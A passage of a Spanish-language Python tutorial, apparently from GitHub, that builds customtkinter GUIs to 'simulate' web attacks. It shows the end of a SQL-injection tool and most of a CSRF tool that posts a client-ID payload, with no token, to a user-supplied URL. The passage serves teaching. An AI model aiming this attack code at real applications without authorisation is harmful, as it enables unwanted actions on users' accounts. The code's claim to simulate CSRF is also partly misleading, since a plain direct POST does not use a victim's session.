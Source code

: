 ```python
    cuadro_resultado.pack(pady=10)

    root.mainloop()

inicializar_interfaz_sql_inyeccion()
```

------

## **Código para Simular Ataques de Cross-Site Request Forgery (CSRF)**

### Descripción del Ataque:

CSRF es un ataque que fuerza a un usuario autenticado a realizar acciones no deseadas en una aplicación sin su consentimiento. En este ejemplo, simularemos un ataque CSRF enviando una solicitud maliciosa.

### Código de la Aplicación para **CSRF**:

```python
import customtkinter as ctk
import requests
from tkinter import messagebox

# Función para realizar el ataque CSRF
def atacar_csrf():
    url_vulnerable = entry_url.get()
    id_cliente = entry_id_cliente.get()
    
    # Payload malicioso simulado
    payload = {'id': id_cliente}
    
    try:
        # Simular la solicitud CSRF sin token de validación
        response = requests.post(url_vulnerable, data=payload)
        cuadro_resultado.delete(1.0, ctk.END)
        if response.status_code == 200:
            cuadro_resultado.insert(ctk.END, f"Ataque CSRF realizado con éxito. Respuesta:\n{response.text}")
        else:
            cuadro_resultado.insert(ctk.END, f"Error en la solicitud: {response.status_code}")
    except Exception as e:
        messagebox.showerror("Error", f"Error al realizar el ataque: {e}")

# Interfaz gráfica para ataque CSRF
def inicializar_interfaz_csrf():
    root = ctk.CTk()
    root.title("Simulación de Ataque CSRF")
    root.geometry("500x400")

    ctk.CTkLabel(root, text="Simulación de Ataque CSRF").pack(pady=10)

    global entry_url, entry_id_cliente, cuadro_resultado

    # Entrada para la URL del endpoint vulnerable
    ctk.CTkLabel(root, text="Introduce la URL Vulnerable").pack(pady=5)
    entry_url = ctk.CTkEntry(root, width=400)
    entry_url.pack(pady=5)

    # Entrada para el ID del cliente
    ctk.CTkLabel(root, text="Introduce el ID del cliente").pack(pady=5)
    entry_id_cliente = ctk.CTkEntry(root, width=400)
```